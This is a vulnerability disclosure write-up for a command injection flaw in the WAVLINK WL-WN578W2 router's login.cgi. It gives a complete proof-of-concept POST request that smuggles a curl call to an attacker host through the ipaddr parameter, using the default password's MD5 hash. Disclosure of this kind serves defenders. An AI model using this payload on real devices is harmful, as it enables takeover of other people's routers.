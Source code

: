 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection (sys\_login1 Action in login.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  Authenticated access required, but password uses fixed MD5 (no dynamic change). Attackers only need the password’s MD5 (e.g., default password) to reuse the exploit.

## Overview

A command injection vulnerability exists in the `sys_login1` action of `login.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `ipaddr` parameter in `sub_401BA4` function (login.c) lacks sanitization and is directly concatenated into system commands. With `page=sys_login1` in POST requests to `/cgi-bin/login.cgi`, attackers with the password’s MD5 can inject arbitrary commands to control the device.



![Vulnerability Flow: sys\_login1 Action Logic](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware**: M78W2\_V221110

*   **Affected Endpoint**: `/cgi-bin/login.cgi` (POST method, trigger via `page=sys_login1`)

*   **Vulnerable Code**: `ftext` function (request routing) & `sub_401BA4` function (core login logic) in login.c

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, fully control the device; exploit is reusable via fixed password MD5.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **Request Routing**: The `ftext` function parses the `page=sys_login1` parameter from the request and calls the `sub_401BA4` function to process core logic.

2.  **Password Verification**: `sub_401BA4` uses the command `echo -n '%s' | md5sum` to verify the input password (fixed MD5 encryption logic, no dynamic changes).

3.  **Command Injection**: The `ipaddr` parameter is not sanitized and is directly used in system command concatenation. Attackers can use delimiters (e.g., `;`) to inject malicious commands.



![MD5 Verification Logic: Fixed Encryption Process](./imgs/2.png)



![Vulnerable Command Flow: ipaddr Parameter Usage](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

Requires the device password’s fixed MD5 (e.g., `e10adc3949ba59abbe56e057f20f883e` corresponds to the default password `123456`).

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 145
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=sys\_login1\&ipaddr=::ffff:192.168.10.154;curl http://192.168.10.154:1234#\&key=M55373357\&password=e10adc3949ba59abbe56e057f20f883e
```

#### PoC Execution Results



1.  **Fixed MD5 Generation**: Run the command `echo -n '123456' | md5sum` on a Linux terminal to generate the password hash, which matches the `password` parameter in the PoC.



![MD5 Generation: Command & Result](./imgs/4.png)



1.  **Successful Injection**: After sending the PoC request, the device executes the injected `curl` command, and the attacker’s server (192.168.10.154:1234) records the request, confirming command execution.
